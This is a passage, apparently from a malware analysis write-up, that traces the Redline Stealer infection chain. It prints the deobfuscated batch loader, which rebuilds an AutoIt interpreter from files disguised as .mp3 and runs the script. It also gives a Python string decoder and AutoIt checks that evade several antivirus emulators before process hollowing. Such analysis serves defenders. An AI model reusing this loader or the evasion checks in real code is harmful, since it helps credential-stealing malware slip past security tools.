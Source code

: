      1 -->|executes| 3
     3 -->|process hollowing| 5
{{< /mermaid >}}
*Figure 1. Redline Stealer Infection Chain*

### Obfuscated BAT Script

Once extracted, the installer executes `cmd /c cmd < Quella.mp3 & ping -n 5 localhost`, which executes `tasklist` to identify if `PSUAService.exe` (PandaAV) is currently running. If the process is not running, it uses `autoit.exe` as the file name for the AutoIt interpreter. Otherwise, the AutoIt interpreter is named `Magenta.exe.pif`.

Next, the magic bytes `MZ` is written to the start of the file to contain the AutoIt interpreter. Once written, the file `%TEMP%\Che.mp3` is filtered by `findstr` to exclude the string a string (Figure 2), which results in writing the rest of the AutoIt interpreter to the `%TEMP%` directory as either `autoit.exe` or `Magenta.exe.pif`. Next, `%TEMP%\Travolge.mp3` is moved to the file `%TEMP%\i`, which is then executed with the AutoIt interpreter (Figure 2).

```powershell
Set AUTOIT=Mantenga.exe.pif
tasklist /FI "imagename eq PSUAService.exe" 2>NUL | find /I /N "psuaservice.exe">NUL
if not errorlevel 1 Set AUTOIT=autoit.exe
<nul set /p = "MZ" > %AUTOIT%
findstr /V /R "^diLJRRSZItYtjhNoXjwrIGvJMByETfIXXTtuIEKyNckyqsZonxjyqPIKKwXfLhuzcquzoGAzCVfhxsJcCXuneCXokxvGGxzAgSJZlF$" Che.mp3 >> %AUTOIT%
Move Travolge.* i
%AUTOIT% i
ping localhost -n 5
```
*Figure 2: Redline Stealer Deobfuscated Batch Script*

### CipherIT (AutoIT Script)

Next, the AutoIT interpreter executes `i`.  Then the AutoIT script performs process hollowing, creates the process `jsc.exe` in suspended mode, hollows the process then injects the process with *Redline Stealer*.

```python
def decode_string(string: str, key: int) -> str:
    return ''.join([chr(int(c) - int(key)) for c in string.split('U')])
```

```vb
; BitDefender Emulator
If(Execute("EnvGet('COMPUTERNAME')") = "tz") Then 
	Execute("WinClose(AutoItWinGetTitle())")

; Windows Defender Emulator
If(FileExists("C:\aaa_TouchMeNot_.txt")) Then 
	Execute("WinClose(AutoItWinGetTitle())")

; Kaspersky Emulator
If(Execute("EnvGet('COMPUTERNAME')") = "NfZtFbPfH") Then 
	Execute("WinClose(AutoItWinGetTitle())")

; AVG Emulator
If(Execute("EnvGet('COMPUTERNAME')") = "ELICZ") Then 
	Execute("WinClose(AutoItWinGetTitle())")
```
